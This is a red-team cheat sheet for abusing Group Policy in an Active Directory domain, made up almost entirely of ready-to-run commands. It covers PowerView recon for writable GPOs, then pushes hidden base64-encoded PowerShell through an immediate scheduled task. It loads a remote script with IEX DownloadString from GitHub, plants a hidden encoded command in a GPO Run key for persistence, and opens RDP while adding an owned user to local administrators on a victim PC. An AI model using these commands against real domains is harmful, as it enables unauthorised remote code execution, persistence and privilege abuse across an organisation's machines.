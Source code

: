 # GPO Abuse

* [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://habr.com/ru/company/jetinfosystems/blog/449278/](https://habr.com/ru/company/jetinfosystems/blog/449278/)
* [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)




## Hunt for GPOs

Search for writable GPOs for the `Domain Users` security group:

```
PowerView3 > Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq ((Get-DomainGroup "Domain Users" | select objectSid).objectSid)}
PowerView3 > Get-DomainGPO '{<GPO_GUID>}'
Or
PS > Get-GPO -Guid <GPO_GUID>
```




## Permissions Abuse



### Recon

Show all GPOs in the domain:

```
PowerView3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the "MEGACORP\PolicyAdmins" group:

```
PowerView3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PowerView3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

* [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```



### Exploit

Create a task with a pwsh payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Cleanup:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```




## Reach a Locked Down PC

If you find yourself in a situation when you're already a domain admin and you need to access a locked down PC (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Identify the OU containing the VICTIM-PC object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
Or
PS > IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/ADModuleImport.ps1")

PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create the GPO using PowerShell (will trigger your command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Create the GPO using GPMC (will enable RDP and add owned user/group to local administartors group on VICTIM-PC):

1. Run → `gpmc.msc`
2. Create new GPO, link it to the OU and edit
3. `<POLICY_NAME>` → Computer Configuration → Policies → Windows Settings → Security Settings → Windows Firewall with Advanced Security → Windows Firewall with Advanced Security → Inbound Rules → New Rule (right-click) → Predefined → Remote Desktop → Allow
4. `<POLICY_NAME>` → Computer Configuration → Preferences → Control Panel Settings → New Local Group (right-click) → Group name (`...`) → Members (Add) → Apply → OK

